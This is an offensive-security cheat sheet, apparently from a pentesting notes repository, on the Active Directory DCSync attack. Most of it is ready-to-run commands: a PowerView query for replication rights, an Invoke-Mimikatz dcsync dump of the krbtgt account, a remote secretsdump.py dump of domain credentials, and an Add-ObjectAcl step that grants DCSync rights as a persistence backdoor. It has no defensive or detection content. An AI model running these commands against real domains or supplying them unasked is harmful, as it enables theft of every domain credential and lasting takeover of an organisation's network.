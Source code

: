 # Overview
The DCSync attack simulates the behaviour of a Domain Controller and asks other Domain Controllers to replicate information using the Directory Replication Service Remote Protocol (MS-DRSR). Because MS-DRSR is a valid and necessary function of Active Directory, it cannot be turned off or disabled.

## Prerequisites
- Having the following permission:  **Replicate Directory Changes**, **Replicate Directory Changes All**

## Tools
- [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- [mimikatz](https://github.com/gentilkiwi/mimikatz)

# Enumeration
```powershell
# PoverView - Check Permission
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}
```

# Exploit
## Local
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

## Remote
```bash
secretsdump.py -just-dc <USER>:<PASSWORD>@<IP> -outputfile <OUTPUT.txt>
```


# Persistence
If you are a *domain admin*, you can grant DCSync rights to anyone using [*PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)
```powershell
Add-ObjectAcl -TargetDistinguishedName "dc=company,dc=corp,dc=local" -PrincipalSamAccountName username -Rights DCSync -Verbose
```

# References
- [https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/dcsync.html](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/dcsync.html)
- [https://www.semperis.com/blog/dcsync-attack/](https://www.semperis.com/blog/dcsync-attack/)

